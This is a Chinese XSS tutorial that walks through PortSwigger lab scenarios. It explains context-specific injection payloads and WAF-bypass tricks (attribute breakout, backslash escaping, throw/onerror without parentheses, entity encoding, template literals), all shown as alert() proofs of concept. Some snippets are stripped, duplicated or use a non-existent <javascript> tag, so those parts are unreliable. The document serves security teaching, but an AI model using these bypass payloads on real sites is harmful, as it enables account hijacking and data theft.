

提交后进入该文章,将直接展示

可以看到我们提交的代码,出现在html的标签页中



案例3

实验:[反射型 XSS 进入 HTML 上下文，大多数标签和属性被阻止](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

该实验室在搜索功能中包含一个反射型 XSS 漏洞，但使用 Web 应用程序防火墙 (WAF) 来防御常见的 XSS 向量。

为了解决实验问题，执行绕过 WAF 并调用 print() 函数的跨站点脚本攻击。

当向搜索框中提交 `<script></script>` 标签时,,提示不允许:



访问 XSS 备忘单并单击复制 标签到剪贴板。如图所示:



使用burp Intruder 来测试到底那些标签是被允许的,如图所示:



我们得到了



### 案例3

实验室：[将反射式 XSS 注入 HTML 上下文，阻止除自定义标签之外的所有标签](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

此实验室阻止除自定义标签之外的所有 HTML 标签。为了解决该实验，请执行跨站点脚本攻击，注入自定义标签并自动提醒 document.cookie 。

### 案例4

实验室：[将反射式 XSS 注入 HTML 上下文，阻止除自定义标签之外的所有标签](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

此实验室阻止除自定义标签之外的所有 HTML 标签。为了解决该实验，请执行跨站点脚本攻击，注入自定义标签并自动提醒 document.cookie 。

### 案例5

实验室：[阻止带有事件处理程序和 href 属性的反射型 XSS](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

该实验室包含一个反射型 XSS 漏洞，其中有一些白名单标签，但所有事件和锚点 href 属性都被阻止。为了解决实验室问题，执行跨站点脚本攻击，注入一个向量，当单击时，调用 alert 函数。请注意，你需要在引导词上标注“点击”，以便引导模拟实验室用户点击你的引导词。例如：

`<a href="">Click me</a>`

### 案例6

实验室：[允许使用一些 SVG 标记的反射型 XSS](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

该实验室存在一个简单的反射型 XSS 漏洞。该网站阻止了常见的标签，但漏掉了一些 SVG 标签和事件。为了解决实验室问题，执行调用 alert() 函数的跨站点脚本攻击。

## HTML 标签属性中的 XSS

### 闭合与逃逸

当 XSS 上下文位于 HTML 标签属性值中时，有时您可以终止该属性值、关闭标签，然后引入新的属性值。例如：

假设目标服务器端存在一个搜索功能，并将用户的搜索词反射在 <input> 标签的 value 属性中：

```html
<input type="text" name="search" value="[USER_INPUT]">
```

若服务器未对尖括号 < > 进行 HTML 实体转义，可使用下面的 Payload 进行彻底的闭合与逃逸：

```javascript
"><script>alert(document.domain)</script>
```

当该 Payload 被注入后，浏览器接收到的最终 HTML 代码如下：

```html
<input type="text" name="search" value=""><script>alert(document.domain)</script>">
```

### 引入新属性

基于相同的搜索功能，但目标服务器部署了基础防御机制，将 < 和 > 转义为 &lt; 和 &gt;。此时，之前的 Payload 会被浏览器视为普通的文本字符串而无法执行。

若服务器过滤了尖括号，但未能过滤双引号 "，则可以将注入点限制在当前 <input> 标签的内部，通过引入新的属性来触发脚本执行。

```javascript
" autofocus onfocus=alert(document.domain) x="
```

当该 Payload 被注入后，浏览器接收到的最终 HTML 代码如下：

```html
<input type="text" name="search" value="" autofocus onfocus=alert(document.domain) x="">
```

* **`"` (闭合属性)：** 首个双引号闭合了原始的 `value` 属性，使后续内容脱离了数据值的范畴，进入标签属性定义的范畴。
* **`onfocus=alert(document.domain)` (事件注入)：** 引入一个新的事件处理程序属性。当该输入框获取焦点时，执行包含的 JavaScript 代码。
* **`autofocus` (触发机制优化)：** 这是一个布尔属性。它的存在会强制浏览器在页面加载完毕后，自动将焦点移动到该 `<input>` 元素上。此机制消除了对用户手动点击输入框（交互）的依赖，实现了 Payload 的自动化执行。
* **`x="` (语法修复机制)：** 这一步至关重要。原始服务器代码在 `[USER_INPUT]` 之后还存在一个闭合双引号 `"`。如果 Payload 不处理这个残留的引号，可能会导致后续的 HTML 语法解析错误，使得整个标签失效。通过注入 `x="`，巧妙地将原始代码残留的 `"` 吸收为自定义无用属性 `x` 的闭合引号，保证了整个 `<input>` 标签结构的完整性与合法性。

### 直接执行

在某些 XSS 注入场景中，用户提供的数据被直接放置在原生支持解析并执行脚本的 HTML 属性内部。与前述需要闭合属性或标签（如利用 "> 或 " autofocus）以逃逸当前上下文的利用方式不同，此类场景允许在不破坏原有 HTML 结构的前提下，直接在当前属性值内构造并执行 JavaScript 代码。

假设目标服务器端存在一个功能，允许用户输入个人网站的 URL，并将其直接输出在锚点标签（<a>）的 href 属性中：

```html
<a href="[USER_INPUT]">访问用户主页</a>
```

若服务器端仅对尖括号 < > 和引号 " ' 进行了过滤或 HTML 实体转义，但未对输入 URL 的协议类型进行白名单校验，则可使用 javascript: 伪协议构造 Payload：

```javascript
javascript:alert(document.domain)
```

当该 Payload 被注入后，浏览器接收到的最终 HTML 代码如下：

```html
<a href="javascript:alert(document.domain)">访问用户主页</a>
```

### 案例1

实验:[反射型 XSS（尖括号被 HTML 编码）注入至标签属性中](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

此实验包含一个反射型跨站脚本漏洞，该漏洞存在于搜索博客功能中，其中尖括号采用 HTML 编码。要解决此实验，请执行一次跨站脚本攻击，注入一个属性并调用 alert 函数。

### 案例2

实验:[锚点标签 href 属性中的存储型 XSS（双引号被 HTML 编码）](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

此实验包含评论功能中的一个存储型跨站脚本漏洞。要解决此实验，请提交一条评论，并在点击评论作者姓名时调用 alert 函数。

## JavaScript代码中的xss

当 XSS 触发上下文为响应内容中已有的 JavaScript 代码时，会衍生出各式各样的场景，而要成功利用该漏洞实施攻击，则需针对性采用不同的技巧。

### 闭合和逃逸

当用户可控的数据被直接渲染在原生 <script> 标签内部的 JavaScript 变量中时，若服务器端未对输入进行严格的转义处理，可以通过闭合 <script> 标签实现上下文逃逸。

假设目标服务器存在一个功能端点，将用户提供的名称直接嵌入到页面内部的 JavaScript 变量中：

```javascript
<script>
    var userName = '[USER_INPUT]';
    console.log("User logged in: " + userName);
</script>
```

若攻击者或测试人员提交引文中的 Payload 进行注入：

```html
</script>
```

目标服务器将该输入拼接到源码中，浏览器接收到的最终 HTML 代码结构如下：

```javascript
<script>
    var userName = '</script>';
    console.log("User logged in: " + userName);
</script>
```

该 Payload 能够成功执行的核心原因在于浏览器的解析顺序：HTML 解析器的优先级高于 JavaScript 解析器/引擎。

其具体的解析与执行流程如下：

1. **HTML 解析器截断（核心原理）：** 浏览器在读取文档时，首先启动 HTML 解析器。当解析器遇到第一个 `<script>` 标签时，会将随后的内容作为纯文本收集，等待交由 JavaScript 引擎处理。 然而，一旦 HTML 解析器在文本中匹配到 `</script>` 字符序列（即 Payload 中注入的部分），它会立即认定当前的 JavaScript 代码块已结束，并停止收集脚本文本。
2. **HTML 元素渲染：** 在认定脚本块结束后，HTML 解析器继续向下解析，遇到了 ``。它将其视为合法的 HTML 图像元素，并将其挂载到 DOM 树中。
3. **JavaScript 语法报错：** 此时，JavaScript 引擎开始处理第一步收集到的脚本文本：

   JavaScript

   ```
   var userName = '
   ```

   由于字符串字面量未正确闭合，JavaScript 引擎会抛出语法错误（通常为 `Uncaught SyntaxError: Invalid or unexpected token`），并终止执行该代码块。
4. **Payload 触发机制：** 尽管原始的 JavaScript 代码块因语法错误而崩溃，但在此之前构建的 `` 元素已经独立存在于 DOM 树中。由于 `src=1` 指向一个无效的图像资源，加载必然失败，从而触发 `onerror` 事件处理程序，最终执行注入的 `alert(document.domain)` 代码。

此类 XSS 利用方式属于典型的“破坏性逃逸”。攻击载荷利用了 HTML 解析优先的特性，通过强行注入 </script> 闭合标签，将执行上下文从“受限的 JavaScript 字符串变量内部”强行切换回“全局 HTML DOM 环境”，进而利用标准 HTML 标签属性实现恶意代码的执行。

### 跳出字符串

当用户可控数据被直接注入到 <script> 标签内部的 JavaScript 字符串字面量（由单引号 ' 或双引号 " 包裹）中时，若无法使用 </script> 闭合标签逃逸到 HTML 上下文，攻击的核心目标将转变为在 JavaScript 引擎的解析阶段直接执行代码。

在此场景下，JavaScript 的严格语法要求成为漏洞利用的主要障碍。若注入的 Payload 破坏了原有的代码结构，导致 JavaScript 引擎抛出语法错误（SyntaxError），整个 <script> 代码块将被中止执行。因此，构造 Payload 时必须包含“语法修复”机制。

例如,目标服务器将用户输入直接赋予一个 JavaScript 变量：

```javascript
<javascript>
var searchQuery = '[USER_INPUT]';
</javascript>
```

注入以下的 Payload后

```javascript
';alert(document.domain)// 
```

最终渲染的 JavaScript 代码如下：

```javascript
<javascript>
// 注入 Payload 后的 JavaScript 代码
var searchQuery = '';alert(document.domain)//';
</javascript>
```

执行逻辑与安全机制解析

* `' `(字符串闭合)： 闭合了原始声明中的单引号，使得输入跳出了字符串数据的范畴。
* `; `(语句终止)： 强制结束了 var searchQuery = '' 这一变量赋值语句。
* `alert(document.domain) `(恶意逻辑引入)： 作为一条全新的、合法的 JavaScript 语句被引擎解析并执行。
* `// `(语法修复)： 这是单行注释符。它将原始代码中残留的闭合单引号和分号（即 ';）转化为注释内容。若无此注释符，残留的 '; 将导致语法错误，从而阻止 alert 的执行。

当上下文无法使用分号 ; 截断，或输入数据被嵌入在更复杂的表达式中的情况：

```javascript
<javascript>
// 目标服务器原始渲染逻辑
var logMessage = 'User searched for: ' + '[USER_INPUT]';
</javascript>

```

注入引文中的 Payload 后

```javascript
'-alert(document.domain)-' 
```

最终渲染的 JavaScript 代码如下：

```javascript
<javascript>
// 注入 Payload 后的 JavaScript 代码
var logMessage = 'User searched for: ' + ''-alert(document.domain)-'';
</javascript>
```

**执行逻辑与安全****机制解析**

- **`'` (字符串闭合)：** 同样用于闭合原始的字符串字面量边界。
- **`-` (算术运算符引入)：** 减号 `-` 在此处作为算术减法运算符。整个表达式变为类似于 `"string" + "" - alert() - ""` 的结构。
- **引擎求值顺序与执行：** 当 JavaScript 引擎尝试计算上述表达式的值时，遇到算术运算符 `-`，必须先获取其操作数的值。因此，引擎被迫优先执行 `alert(document.domain)` 函数。
- **语法修复机制：** `alert()` 函数执行完毕后会隐式返回 `undefined`。JavaScript 在进行减法运算时，会将 `undefined` 转换为 `NaN` (Not-a-Number)。整个语句最终计算结果为 `NaN`（或连接后的字符串带有 `NaN`），但这构成了合法的 JavaScript 表达式，不会抛出语法错误，从而保证了 Payload 的成功执行。除减号外，乘号 `*` 也能实现相同的效果。

### 转义字符规避与反斜杠注入原理解析

在 JavaScript 字符串上下文中，服务端常采用转义机制（Escaping）作为防御 XSS 的手段。其核心逻辑是在特定危险字符（如单引号 ' 或双引号 "）前附加反斜杠 \，指示 JavaScript 解析器将其作为普通的字面量字符处理，而非字符串闭合符。

然而，若服务端的防御逻辑仅针对引号，而未对反斜杠 \ 本身进行转义处理，攻击者即可通过“反斜杠注入”技术，利用 JavaScript 的转义规则反向抵消服务端的防御机制。

假设服务端接收用户输入并拼接到 JavaScript 变量中，其防御规则为：将输入中的 ' 替换为 \'。

```javascript
// 目标服务端原始渲染逻辑
var userMessage = '[USER_INPUT]';
```

若直接输入常规 Payload `';alert(document.domain)//`，服务端的处理结果如下：

```javascript
// 转义后的安全代码（防御成功状态）
var userMessage = '\';alert(document.domain)//';
```

在此状态下，JavaScript 引擎将 \' 识别为一个普通的单引号字符，随后的所有内容均被安全地限制在字符串内部，无法作为代码执行。

针对未过滤反斜杠的缺陷，可主动在 Payload 开头引入反斜杠进行构造：

```javascript
\';alert(document.domain)//
```

服务端接收到上述 Payload，检测到其中的单引号 '，并按既定规则在其前方插入反斜杠。用户提交的原始反斜杠则原样保留。
浏览器最终接收到的 JavaScript 代码结构如下：

```javascript
// 注入 Payload 并经服务端转义后的代码
var userMessage = '\\';alert(document.domain)//';
```

当 JavaScript 引擎解析上述代码时，转义符的结合性遵循从左至右的匹配原则：

- **`\\` (转义符抵消)：** 引擎首先读取到连续的两个反斜杠 `\\`。根据 JavaScript 语法规范，`\\` 表示对反斜杠自身进行转义，即解析为一个纯文本的字面量反斜杠字符。这一步骤导致服务端自动添加的那个反斜杠被攻击者输入的反斜杠“中和”或“消耗”掉。
- **`'` (字符串边界闭合)：** 紧随其后的单引号 `'` 由于前方的反斜杠已被抵消，不再具有转义状态。它恢复了作为字符串闭合符的原始语义，强制结束了 `userMessage` 变量的字符串赋值区域。
- **`;alert(...)//` (恶意逻辑执行)：** 字符串成功闭合后，分号 `;` 终结当前的赋值语句。随后的 `alert(document.domain)` 被 JavaScript 引擎认定为全新的、合法的可执行代码块。最后的双斜杠 `//` 形成单行注释，用于屏蔽原始代码中残留的闭合单引号，以修复语法错误。

### 无括号与无分号注入

#### **一、 无括号注入**

在 Web 应用防火墙 (WAF) 或应用级安全过滤器严格限制圆括号 () 的场景下，常规的函数调用语法（如 alert(1) 或 eval(code)）将失效。此限制可通过滥用 JavaScript 的异常处理机制进行规避。

核心逻辑在于将目标函数赋值给全局错误处理程序 onerror，随后利用 throw 语句主动抛出异常。抛出的异常值将被 JavaScript 引擎隐式地作为参数传递给 onerror 所绑定的函数。

```javascript
// 基础 Payload
<script>
onerror=alert;throw 1
</script>
// 机制解析：发生异常时触发绑定的 alert 函数，throw 抛出的整数 1 作为 alert 的参数，实现 alert(1) 的等效调用。
```

#### **二、 无分号 (Semi-colon) 注入变体**

若安全机制进一步拦截了分号 `;`，上述基础 Payload 将因语法割裂而失效。可通过代码块特性或表达式求值顺序重构语法，以消除对分号的依赖。

1. **利用代码块语句 (Block Statement)：**

   使用大括号 `{}` 形成独立的代码块来执行赋值操作。后续的 `throw` 语句作为独立的结构，无需分号分隔即可被引擎正确解析。

   ```javascript
   {onerror=alert}throw 1337
   ```
2. **利用表达式求值机制：**

   `throw` 语句在语法上接受一个表达式。通过逗号运算符 `,` 结合赋值操作，可在单条语句内部依次完成处理器绑定与异常值的设定。

   ```javascript
   throw onerror=alert,1337
   // 机制解析：引擎从左至右计算表达式。首先完成 onerror=alert 的赋值，随后将 1337 作为 throw 操作的最终抛出值。
   ```

#### **三、 结合 `eval` 执行任意代码及浏览器特性差异**

若需执行包含多层逻辑的复杂 Payload，通常将 `onerror` 绑定为 `eval`。由于此时传递给 `eval` 的是字符串字面量，该字符串内部的括号可以使用十六进制编码（`\x28` 为 `(`，`\x29` 为 `)`）进行转义，从而彻底避开外部过滤设备的特征检测。

不同内核的浏览器在处理未捕获异常的字符串表示时存在硬编码的前缀差异，必须针对性构造语法闭合：

1. **Chrome 浏览器的执行机制：**

   Chrome 引擎会在抛出的纯字符串前自动附加 `Uncaught ` 前缀。利用赋值运算符 `=`，可将该报错前缀强制转换为合法的变量声明。

   ```javascript
   // Chrome 环境 Payload
   {onerror=eval}throw'=alert\x281337\x29'

   // 引擎实际执行的 eval 字符串内容： Uncaught =alert(1337)
   // 机制解析：声明了一个名为 Uncaught 的隐式全局变量，并将其赋值为 alert(1337) 的执行结果。由于构成合法 JavaScript 语句，不会触发语法错误。
   ```
2. **Firefox 浏览器的绕过机制：**

   Firefox 会在异常前附加 `uncaught exception ` 前缀。由于包含空格，该字符串无法转换为合法的变量名，会导致 `eval` 解析时抛出 `SyntaxError`。

   绕过方案是利用对象字面量（Object Literal）模拟原生 `Error` 对象的内部结构。当抛出包含特定必须属性的自定义对象时，Firefox 引擎会抑制默认的文本前缀附加行为，直接输出 `message`属性的原始文本。

   ```javascript
   // Firefox 环境 Payload
   {onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}
   // 机制解析：通过提供 lineNumber、columnNumber、fileName 等必要的错误对象属性，强迫 Firefox 仅传递 message 字段的值给 eval 处理。
   ```

#### **四、进阶规避：消除 `throw` 关键字**

在极其严苛的过滤环境中，不仅标点符号受限，`throw` 关键字本身也可能被加入静态检测黑名单。此时，可通过构造非法的 DOM 操作或属性访问，触发原生类型错误（TypeError）来隐式调用异常处理程序。

```javascript
// 无 throw 语句的 Payload 示例
TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']
```

**底层执行逻辑拆解：**

1. 首先重写全局 `TypeError` 对象的原型属性 `name` 为包含等号和斜杠的特定字符串 `=/`。
2. 表达式 `0[onerror=eval]` 在完成处理程序的绑定后，尝试在一个基本数字类型 `0` 上发起属性访问操作。
3. 随后拼接的 `['/-alert(1)//']` 导致引擎尝试访问一个非法的属性路径，强制系统抛出 `TypeError`。
4. 生成的原生错误消息与被恶意修改的 `name` 属性组合，最终在传递给 `eval` 时，恰好拼接成一段由注释符包裹、内部包含执行代码的合法 JavaScript 逻辑。

### 使用 HTML 编码

在特定的 XSS 注入场景中，若用户输入的数据被直接嵌入到支持执行 JavaScript 的 HTML 标签属性（如 onclick、onmouseover 等事件处理器）内部，可以通过利用浏览器的底层解析顺序特性，结合 HTML 实体编码（HTML-encoding）技术来规避服务端的输入过滤机制。

该绕过技术的成立依赖于现代浏览器的标准渲染与解析流程。当浏览器接收到 HTTP 响应并开始构建 DOM 树时，其处理层级与顺序如下：

1. HTML 解析与解码阶段： 浏览器首先进行 HTML 语法树的解析。在此阶段，若解析器遇到标签属性（Tag Attributes）内的 HTML 实体字符（如 &apos; 代表单引号，&quot; 代表双引号，&#39; 亦代表单引号），会优先将其解码为对应的原始 ASCII 字符。
2. JavaScript 解析与执行阶段： HTML 属性值解码完成后，若该属性为事件处理器，其解码后的最终字符串才会被提取并移交至内部的 JavaScript 引擎，进行下一步的语法解析和代码执行。

假设目标服务端存在一段渲染用户输入的 JavaScript 逻辑，位于 <a> 标签的 onclick 事件属性中：

```html
<a href="#" onclick="var input='[USER_INPUT]'; processData(input);">点击此处</a>
```

服务端在应用层实施了输入校验，严格拦截或转义了纯文本格式的单引号 ' 和双引号 "，以防止输入数据闭合字符串字面量从而执行恶意代码。

为了绕过针对字面量单引号的过滤，可注入基于 HTML 实体编码的 Payload：

`&apos;-alert(document.domain)-&apos;`

由于服务端过滤器通常基于字面量匹配，仅识别原始的 ' 字符。当遇到实体编码形式的 &apos; 时，往往不会命中拦截规则。因此，该载荷被原样拼接到 HTML 源码中并返回给客户端：

`<a href="#" onclick="var input='&apos;-alert(document.domain)-&apos;'; processData(input);">点击此处</a>`

客户端浏览器接收到上述源码，在解析 onclick 属性值时，自动将 `&apos; `实体解码为真实的单引号 '。此时，内存中准备传递给 JavaScript 引擎的字符串实体发生转变：

```javascript
// 经 HTML 解析器解码后，实际移交 JS 引擎的代码
var input=''-alert(document.domain)-''; processData(input);
```

针对此类特定上下文的漏洞，严谨的修复方案要求服务端采用与输出位置相匹配的严格编码机制。例如，在将用户数据置入 JavaScript 字符串内部时，应强制执行 Unicode 转义序列（如将 ' 转义为 \u0027），而非依赖单一的 HTML 实体编码或简单的字符剔除。

### JavaScript 模板字符串 (Template Literals) 注入

在 ECMAScript 6 (ES6) 及更高版本的 JavaScript 中，模板字符串（Template Literals）提供了一种动态拼接字符串的内置机制。当用户可控数据被不安全地嵌入此类上下文中时，将引发无需破坏语法边界即可执行任意代码的高危 XSS 漏洞。

模板字符串使用反引号（`）作为边界标识符。其核心特性在于支持表达式插值（Expression Interpolation）：通过 ${...} 语法占位符，开发者可以在字符串字面量内部直接嵌入任何合法的 JavaScript 表达式。

JavaScript 解析引擎在处理模板字符串时，会自动提取 ${ 与 } 之间的代码片段，对其进行动态求值（Evaluation），随后将计算结果隐式转换为字符串，并拼接回原始文本中。

例如,目标服务端将用户提交的数据直接渲染至由反引号包裹的变量赋值语句中：

```javascript
// 目标服务端原始渲染逻辑
<script>
    var input = `[USER_INPUT]`;
</script>
```

针对该上下文，无需使用常规的闭合手段（如输入 `;alert(1)// 来逃逸反引号），而是直接利用原生的插值语法注入 Payload：

```javascript
${alert(document.domain)}
```

注入该 Payload 后，浏览器接收到的最终 JavaScript 代码如下：

```javascript
// 注入 Payload 后的 JavaScript 代码
<script>
    var input = `${alert(document.domain)}`;
</script>
```

引擎执行逻辑解析

1. **词法分析与边界识别：** JavaScript 引擎扫描到反引号 ```，确认进入模板字符串的解析作用域。
2. **表达式求值（恶意逻辑触发）：** 引擎解析至 `${` 占位符，立即暂停单纯的字符串读取逻辑，转而将内部的 `alert(document.domain)` 作为一个标准的 JavaScript 表达式进行执行。此时，代码执行上下文依然是当前页面的全局环境（Window），因此成功触发弹窗。
3. **结果拼接与语法闭合：** `alert()` 函数执行完毕后，默认返回 `undefined`。JavaScript 引擎将返回值转换为字符串 `"undefined"`，赋值给 `input` 变量（即 `var input = "undefined";`）。整个过程完全符合 JavaScript 严格的语法规范，不会抛出任何 `SyntaxError`。

### 案例1

实验：[反射型 XSS 注入至 JavaScript 字符串中（单引号与反斜杠被转义）](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

此实验室包含搜索查询跟踪功能中的一个反射型跨站脚本漏洞。该反射发生在一个已转义单引号和反斜杠的 JavaScript 字符串中。为了解决此实验问题，执行跨站点脚本攻击，突破 JavaScript 字符串并调用 alert 函数。

### 案例2

实验：[反射型 XSS 注入至 JavaScript 字符串中（尖括号被 HTML 编码）](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)

此实验包含一个反射型跨站脚本漏洞，该漏洞存在于搜索查询跟踪功能中，其中尖括号被编码。反射发生在 JavaScript 字符串内部。要解决此实验，请执行一次跨站脚本攻击，突破 JavaScript 字符串的限制并调用 alert 函数。

### 案例3

实验：[反射型 XSS 注入至 JavaScript 字符串中（尖括号与双引号被 HTML 编码、单引号被转义）](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)

该实验室包含搜索查询跟踪功能中的反射型跨站点脚本漏洞，其中尖括号和双引号是 HTML 编码的，而单引号则被转义。为了解决此实验问题，执行跨站点脚本攻击，突破 JavaScript 字符串并调用 alert 函数。

### 案例4

实验：[JavaScript URL 中的反射型 XSS（部分字符被拦截）](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

本实验将您的输入反映到 JavaScript URL 中，但一切并非表面看起来的那样。这乍一看似乎是一个简单的挑战；然而，应用程序会屏蔽一些字符，以防止 XSS 攻击。为了解决实验室问题，执行跨站点脚本攻击，使用 alert 消息中某处包含的字符串 1337 调用 alert 函数。

### 案例5

实验:[注入至onclick事件中的存储型XSS（尖括号与双引号被HTML编码、单引号与反斜杠被转义）](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)

本实验室的评论功能中存在存储型跨站脚本漏洞。为了解决这个实验，请提交一条评论，当点击评论作者姓名时调用 alert 函数。

### 案例6

实验:[反射型 XSS 注入至模板字符串中（尖括号、单引号、双引号、反斜杠及反引号均被 Unicode 转义）](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)

